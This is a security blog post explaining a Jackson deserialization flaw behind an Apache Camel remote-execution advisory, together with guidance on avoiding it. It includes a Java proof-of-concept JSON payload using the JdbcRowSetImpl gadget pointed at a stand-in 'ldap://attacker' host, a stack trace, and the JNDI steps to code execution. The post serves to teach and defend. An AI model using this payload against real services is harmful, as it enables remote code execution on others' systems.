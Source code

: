 ```yaml
---
layout: post
title: "Jacksson deserialization exploits"
author: capitol
category: security
---
```

![serialize](/images/serialize.png)

Earlier this year there was an remote execution exploit published against 
[apache camel](http://camel.apache.org/security-advisories.data/CVE-2016-8749.txt.asc?version=2&modificationDate=1486565034000&api=v2).
 Lets look at how that vulnerability works and how to guard against it.
 
First some background, apache camel is a framework that helps with building integrations
between different components in a system. You can for example read from an jms queue 
and write to a https endpoint, very enterprise.

The exploitable part was in the jackson library that camel used to serialize/deserialize.

The vulnerability in jackson can be demonstrated with just a few lines of java code:

```java
    String json = "[\"java.util.List\", [[\"com.sun.rowset.JdbcRowSetImpl\" ,{\n" +
            "\"dataSourceName\":\n" +
            "\"ldap://attacker/obj\" ,\n" +
            "\"autoCommit\" : true\n" +
            "}]]]";

    ObjectMapper om = new ObjectMapper();
    om.enableDefaultTyping();
    Object o = om.readValue(json, List.class);
```

Running it gives the error:
```java
Exception in thread "main" com.fasterxml.jackson.databind.JsonMappingException: JdbcRowSet (anslut) JNDI kan inte anslutas
 at [Source: ["java.util.List", [["com.sun.rowset.JdbcRowSetImpl" ,{
"dataSourceName":
"ldap://attacker/obj" ,
"autoCommit" : true
}]]]; line: 4, column: 16] (through reference chain: java.util.ArrayList[0]->com.sun.rowset.JdbcRowSetImpl["autoCommit"])
	at com.fasterxml.jackson.databind.JsonMappingException.from(JsonMappingException.java:223)
	at com.fasterxml.jackson.databind.deser.SettableBeanProperty._throwAsIOE(SettableBeanProperty.java:537)
	at com.fasterxml.jackson.databind.deser.SettableBeanProperty._throwAsIOE(SettableBeanProperty.java:518)
	at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:99)
	at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:260)
	at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:125)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromAny(AsArrayTypeDeserializer.java:68)
	at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:554)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:279)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:249)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:26)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromArray(AsArrayTypeDeserializer.java:50)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserializeWithType(CollectionDeserializer.java:310)
	at com.fasterxml.jackson.databind.deser.impl.TypeWrappedDeserializer.deserialize(TypeWrappedDeserializer.java:42)
	at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:3788)
	at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:2779)
	at no.hackeriet.App.main(App.java:23)
Caused by: java.sql.SQLException: JdbcRowSet (anslut) JNDI kan inte anslutas
	at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:634)
	at com.sun.rowset.JdbcRowSetImpl.setAutoCommit(JdbcRowSetImpl.java:4067)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:97)
	... 15 more
```

There is a type check in the readValue class, but that doesn't stop the attack
since it only checks that it's a List that we try to deserialize, and the content
of the list isn't type checked due to [type erasure](https://docs.oracle.com/javase/tutorial/java/generics/erasure.html).

The reason that jackson lets the sender specify the java classes that's the json gets deserialized to
is because of the call `om.enableDefaultTyping();`. The same functionality can also be triggered if you
have annotated a `java.lang.Object` with `@JsonTypeInfo`.

If you don't do that in your code then you are safe from this attack.

#### Gadgets

The classes that we can use to escalate an deserialization into remote code execution are called gadgets.

More modern versions of jackson have a blacklist with known dangerous classes that it refuses to deserialize
[here](https://github.com/FasterXML/jackson-databind/blob/master/src/main/java/com/fasterxml/jackson/databind/deser/BeanDeserializerFactory.java#L46).

But there is a large number of java classes out there and it's impossible to defend against all of them.

In order for a class to be a valid gadget for a jackson deserialization attack these criteria needs
to be fulfilled:

* A default constructor, i.e. a constructor without any arguments.
* A method that acts on the argument in a non-trivial way, the simplest is if you are able to 
provide a serialized java class with a function that gets called. But there is a number of other
ways, for example using jndi connections.

#### The LDAP gadget

For those that ain't that deep into the java world, a quick description of JNDI is this:
JNDI does for LDAP what JDBC does for a Database, in other words it provides an interface
 to interact with the ldap server from java.
 
How the ldap url leads to remote code execution a bit out of scope but is described [here](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf).

To summarize the attack have these steps:
1. Attacker provides an absolute LDAP URL to a vulnerable JNDI lookup method.
2. Target connect's to an attacker controlled LDAP Server that returns a malicious JNDI Reference.
3. Target decodes the JNDI Reference.
4. Target fetches the Factory class from attacker-controlled server.
5. Target instantiates the Factory class.
6. Payload gets executed.
